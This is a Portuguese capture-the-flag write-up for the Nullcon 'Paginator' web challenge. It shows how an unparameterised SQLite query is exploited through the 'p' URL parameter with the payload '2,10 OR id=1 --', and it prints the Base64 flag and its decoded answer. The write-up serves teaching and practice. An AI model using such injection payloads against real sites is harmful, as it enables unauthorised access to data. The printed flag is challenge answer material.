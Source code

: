 # Writeup: Paginator

**Plataforma**: Nullcon CTF  
**Categoria**: Web Exploitation
**Autor**: gehaxelt

## Desafio

O desafio "Paginator" apresenta um site vulnerável a SQL Injection, permitindo acesso não autorizado ao conteúdo do banco de dados SQLite. O objetivo é explorar essa vulnerabilidade para obter a flag.

---

## Solução

### 1. Análise do código

A análise do código PHP revela que a aplicação usa um banco de dados SQLite para armazenar páginas e suas respectivas descrições. O código relevante pode ser visto na imagem abaixo:

![Imagem 1: Código fonte do desafio](./assets/code.jpg)

#### Pontos importantes:

- O banco de dados armazena páginas numeradas de **1 a 10**.
- A flag está armazenada na página "Flag", codificada em **Base64**.
- O código permite consultas SQL diretamente via parâmetro `p` na URL.
- A consulta **NÃO usa prepared statements**, tornando-a vulnerável a **SQL Injection**.

---

### 2. Identificação da vulnerabilidade

O site possui uma funcionalidade para listar páginas dentro de um intervalo de IDs, acessível pela URL:

```
/?p=2,10
```

A consulta SQL gerada é:

```sql
SELECT * FROM pages WHERE id >= 2 AND id <= 10;
```

Como não há filtragem de entrada adequada, podemos manipular o parâmetro para injetar SQL arbitrário.

---

### 3. Explorando a SQL Injection

Ao modificar a URL para:

```
/?p=2,10 OR id=1 --
```

Estamos alterando a consulta SQL para:

```sql
SELECT * FROM pages WHERE id >= 2 AND id <= 10 OR id=1 --
```

Isso força a inclusão da **página com ID 1**, que contém a flag.

**URL injetada:**

![Imagem 2: URL injetada](./assets/sql_injection.jpg)

A resposta do servidor retorna a flag codificada em **Base64**:

```
RU5Pe1NRTDFfVzF0aF8wdVRfQzBtbTRfVzBya3NfU29tZUhvdyF9
```

---

### 4. Decodificação da Flag

Usamos uma ferramenta online ou o comando `base64 -d` no terminal:

```
echo 'RU5Pe1NRTDFfVzF0aF8wdVRfQzBtbTRfVzBya3NfU29tZUhvdyF9' | base64 -d
```

## Flag

```
ENO{SQL1_W1th_0uT_C0mm4_W0rks_SomeHow!}
```

---

## Autor da WriteUp

[Membro de Networking - jvittor1](https://github.com/jvittor1)
